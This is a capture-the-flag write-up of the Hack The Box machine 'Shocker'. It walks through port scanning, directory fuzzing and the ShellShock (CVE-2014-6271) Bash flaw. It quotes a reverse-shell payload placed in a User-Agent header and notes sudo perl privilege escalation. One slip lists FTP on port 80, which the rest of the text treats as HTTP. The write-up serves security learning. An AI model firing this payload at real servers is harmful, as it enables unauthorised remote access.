 # EASY - SHOCKER

# 1. Enumeration

I started pinging the target to check if it was a Linux or a Windows system. The Time-To-Live (ttl) was 63, which is very close to 64, so it was a Linux system. Had it been close to 128 (or 128) it would have been a Windows system. After that I conducted an Nmap scan to detect active services on the target using `-p-` to scan all ports. Given that this is a Hack The Box machine (a controlled environment), I optimized the scan for speed using the following flags: `--min-rate 4000`, `-sS` for a SYN scan, and `-T4` for maximum speed.

![image.png](EASY-SHOCKER/image.png)

The scan has revealed the following open ports:

- **FTP** on port 80
- **SSH** on port 2222 (not the default port)

 Then, I conducted a more thorough scan to those two ports using service version detection (`-sV`) and the Nmap Scripting Engine (NSE) with default scripts (`-sC`). I also saved the output for easy reference later (`-oN nmap`).

![image.png](EASY-SHOCKER/image%201.png)

After the scan I ran `whatweb` to check which technologies did the HTTP service use and tried visiting the webpage to look for web vulnerabilities. The web contained an image only and `wappalyzer` couldn’t discover any technologies that `whatweb` hadn’t discovered before.

![image.png](EASY-SHOCKER/image%202.png)

![image.png](EASY-SHOCKER/image%203.png)

As there were no technologies that could have any exploits I decided to fuzz directories with `Gobuster` to discover any hidden content that could exist. There were no files which I could access but the directory /cgi-bin/ was found, so I ran gobuster again to look for content inside it. 

![image.png](EASY-SHOCKER/image%204.png)

![image.png](EASY-SHOCKER/image%205.png)

While `Gobuster` was running I googled “cgi bin exploit” and I found this article https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/cgi that mentioned the ShellShock vulnerability (**CVE-2014-6271**). This vulnerability consisted on attaching malicious code to environment variables. Before trying the exploit I checked gobuster and it had discovered a file called user.sh. I checked it but it didn’t seem to show anything useful. 

![image.png](EASY-SHOCKER/image%206.png)

# 2. ShellShock

So I decided to look for information about the vulnerability and I found a script to exploit it ( https://github.com/MY7H404/CVE-2014-6271-Shellshock ). But, before running the script I made sure I understood what was happening and why it worked.

ShellShock is a vulnerability in Bash, which is a command-line shell used in many Unix and Linux systems. Bash allows users to define functions, and those functions can be stored in environment variables.The problem arises when there is malicious code written after the function definition. Instead of just defining the function, Bash will also execute any code that comes **after** the function definition. This should never happen because environment variables are supposed to contain definitions, not executable code.

### How it works:

This is how a normal bash function definition looks like: `x='() { echo hello; }'` . If this function were to be stored inside an environment variable it would look like this: `env x='() { echo hello; }'`. Normally, this just defines a function `x` that prints "hello" when called. However, consider this command:`env x='() { echo hello;}; echo exploit'`. Under normal circumstances, Bash should ignore the `echo exploit` part and only define the function. However, in Bash versions vulnerable to ShellShock, the `echo exploit` would also be executed immediately after defining the function. This allows anyone to execute arbitrary code in systems which are running vulnerable versions of Bash. 

What the script I downloaded does is setting a listener in our system (to capture the reverse shell) and then sending a HTTP request to the vulnerable server which contains the payload the user chooses inside the User-Agent header. For example, if the tcp option is chosen, the payload is the following: `payload = "() { ignored;};/bin/bash -i >& /dev/tcp/%s/%s 0>&1" % (args.remote, args.port)` . This defines a function and then sends an interactive shell to our system. This works because when a CGI script is executed, the web server passes information (like HTTP request headers) to the script by setting them as environment variables. If the CGI script uses a vulnerable version of Bash to process the requests, it willnot only define the function but also execute the arbitrary code that comes after it. The arbitrary code is executed with the permissions of the user under which the vulnerable Bash process is running.

### Exploitation:

Running the downloaded script against the [user.sh](http://user.sh) script we found in the webserver successfully spawns an interactive shell in our system.

![image.png](EASY-SHOCKER/image%207.png)

# 3. Privilege Escalation

 Having access to the system I tried checking wether the user shelly had any sudo permissions. It had permissions to run perl as sudo so I looked up “perl privesc” in Google and I found a GTFOBins article which had a perl command to spawn a shell.

![image.png](EASY-SHOCKER/image%208.png)

After that, I spawned a tty with `python3 -c 'import pty; pty.spawn("/bin/bash")'`  and captured the root flag.

![image.png](EASY-SHOCKER/image%209.png)
